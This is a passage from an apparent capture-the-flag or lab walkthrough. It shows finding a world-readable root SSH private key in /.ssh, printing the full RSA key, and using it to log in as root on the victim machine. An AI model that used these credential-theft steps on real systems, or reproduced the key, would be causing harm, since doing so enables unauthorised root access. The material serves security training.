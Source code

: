 ```
lrwxrwxrwx  1 root root    27 May 12  2017 vmlinuz -> boot/vmlinuz-2.6.32-5-amd64
```

```
$ ls -l /.ssh
total 4
-rw-r--r-- 1 root root 1679 Aug 25  2019 root_key
```

Note that there is a world-readable file called `root_key`. Further inspection of this
file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

Copy the key over to your Kali box (it's easier to just view the contents of the
root_key file and copy/paste the key) and give it the correct permissions, otherwise
your SSH client will refuse to use it:

```
$ cat root_key 
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA3IIf6Wczcdm38MZ9+QADSYq9FfKfwj0mJaUteyJHWHZ3/GNm
gLTH3Fov2Ss8QuGfvvD4CQ1f4N0PqnaJ2WJrKSP8QyxJ7YtRTk0JoTSGWTeUpExl
p4oSmTxYnO0LDcsezwNhBZn0kljtGu9p+dmmKbk40W4SWlTvU1LcEHRr6RgWMgQo
OHhxUFddFtYrknS4GiL5TJH6bt57xoIECnRc/8suZyWzgRzbo+TvDewK3ZhBN7HD
eV9G5JrjnVrDqSjhysUANmUTjUCTSsofUwlum+pU/dl9YCkXJRp7Hgy/QkFKpFET
Z36Z0g1JtQkwWxUD/iFj+iapkLuMaVT5dCq9kQIDAQABAoIBAQDDWdSDppYA6uz2
NiMsEULYSD0z0HqQTjQZbbhZOgkS6gFqa3VH2OCm6o8xSghdCB3Jvxk+i8bBI5bZ
YaLGH1boX6UArZ/g/mfNgpphYnMTXxYkaDo2ry/C6Z9nhukgEy78HvY5TCdL79Q+
5JNyccuvcxRPFcDUniJYIzQqr7laCgNU2R1lL87Qai6B6gJpyB9cP68rA02244el
WUXcZTk68p9dk2Q3tk3r/oYHf2LTkgPShXBEwP1VkF/2FFPvwi1JCCMUGS27avN7
VDFru8hDPCCmE3j4N9Sw6X/sSDR9ESg4+iNTsD2ziwGDYnizzY2e1+75zLyYZ4N7
6JoPCYFxAoGBAPi0ALpmNz17iFClfIqDrunUy8JT4aFxl0kQ5y9rKeFwNu50nTIW
1X+343539fKIcuPB0JY9ZkO9d4tp8M1Slebv/p4ITdKf43yTjClbd/FpyG2QNy3K
824ihKlQVDC9eYezWWs2pqZk/AqO2IHSlzL4v0T0GyzOsKJH6NGTvYhrAoGBAOL6
Wg07OXE08XsLJE+ujVPH4DQMqRz/G1vwztPkSmeqZ8/qsLW2bINLhndZdd1FaPzc
U7LXiuDNcl5u+Pihbv73rPNZOsixkklb5t3Jg1OcvvYcL6hMRwLL4iqG8YDBmlK1
Rg1CjY1csnqTOMJUVEHy0ofroEMLf/0uVRP3VsDzAoGBAIKFJSSt5Cu2GxIH51Zi
SXeaH906XF132aeU4V83ZGFVnN6EAMN6zE0c2p1So5bHGVSCMM/IJVVDp+tYi/GV
d+oc5YlWXlE9bAvC+3nw8P+XPoKRfwPfUOXp46lf6O8zYQZgj3r+0XLd6JA561Im
jQdJGEg9u81GI9jm2D60xHFFAoGAPFatRcMuvAeFAl6t4njWnSUPVwbelhTDIyfa
871GglRskHslSskaA7U6I9QmXxIqnL29ild+VdCHzM7XZNEVfrY8xdw8okmCR/ok
X2VIghuzMB3CFY1hez7T+tYwsTfGXKJP4wqEMsYntCoa9p4QYA+7I+LhkbEm7xk4
CLzB1T0CgYB2Ijb2DpcWlxjX08JRVi8+R7T2Fhh4L5FuykcDeZm1OvYeCML32EfN
Whp/Mr5B5GDmMHBRtKaiLS8/NRAokiibsCmMzQegmfipo+35DNTW66DDq47RFgR4
LnM9yXzn+CbIJGeJk5XUFQuLSv0f6uiaWNi7t9UNyayRmwejI6phSw==
-----END RSA PRIVATE KEY-----
```

Copy the contents and save it in your machine (as the attacker)

```
$ chmod 600 root_key
$ ssh -i root_key root@Victim_IP
```
